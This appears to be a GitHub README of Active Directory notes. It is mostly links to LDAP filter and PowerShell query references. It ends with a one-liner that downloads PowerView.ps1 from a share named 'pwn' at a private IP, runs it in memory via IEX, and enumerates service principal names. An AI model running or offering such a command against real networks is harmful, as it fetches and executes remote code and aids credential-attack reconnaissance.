 # ad-scripts-n-bits

LDAP Search Terms & Syntax (Best resource)
- https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx

Case Studies
- https://www.jaapbrasser.com/tag/ldap-query/

LDAP Filter Syntax
- https://docs.fortinet.com/document/fortiauthenticator/6.0.3/administration-guide/851122/ldap-filter-syntax

Powershell Directory Tree Query Terms
- https://devblogs.microsoft.com/scripting/use-powershell-to-query-active-directory-from-the-console/

Powershell LDAP Query Terms
- https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query





Enum SPN's Oneliner SMBv2

```IEX(New-Object Net.webClient).downloadString('\\192.168.119.135\pwn\PowerView.ps1');Get-SPN -type service -search "*" -List yes | Format-Table -AutoSize```
